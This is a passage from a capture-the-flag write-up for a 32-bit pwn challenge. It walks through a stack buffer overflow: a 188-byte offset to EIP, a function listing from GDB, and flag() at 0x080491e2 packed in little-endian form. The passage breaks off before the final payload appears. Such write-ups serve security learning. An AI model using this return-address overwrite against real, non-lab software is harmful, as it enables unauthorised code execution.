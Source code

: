 Thus, 188 bytes can be passed into the buffer before the EIP register is overwritten.

### Flag() Debug

With the EIP register successfully overwritten, the next step is to control it such that it points to the flag() function. Before determining where this function lies in memory, it is imperative to first establish that this binary is in little endian format\:

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $file vulnvuln\: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
{% endhighlight %}

After finding out that this binary is an LSB executable, the next step is to discover where flag() is in memory. This can be done with the info functions command within GDB\:

{% highlight bash %}
pwndbg> info functions  
All defined functions\:  
  
Non-debugging symbols\:  
0x08049000  _init  
0x08049030  printf@plt  
0x08049040  gets@plt  
0x08049050  fgets@plt  
0x08049060  getegid@plt  
0x08049070  puts@plt  
0x08049080  exit@plt  
0x08049090  __libc_start_main@plt  
0x080490a0  setvbuf@plt  
0x080490b0  fopen@plt  
0x080490c0  setresgid@plt  
0x080490d0  _start  
0x08049110  _dl_relocate_static_pie  
0x08049120  __x86.get_pc_thunk.bx  
0x08049130  deregister_tm_clones  
0x08049170  register_tm_clones  
0x080491b0  __do_global_dtors_aux  
0x080491e0  frame_dummy  
0x080491e2  flag  
0x08049272  vuln  
0x080492b1  main  
0x08049330  __libc_csu_init  
0x08049390  __libc_csu_fini  
0x08049391  __x86.get_pc_thunk.bp  
0x08049398  _fini
{% endhighlight %}

Note the functions of interest which are in red

Flag() is at 0x080491e2 which in little endian byte format is \\xe2\\x91\\x04\\x08. Therefore, upon inputting a string of 188 bytes followed by the address of the flag, the program should call the function\:
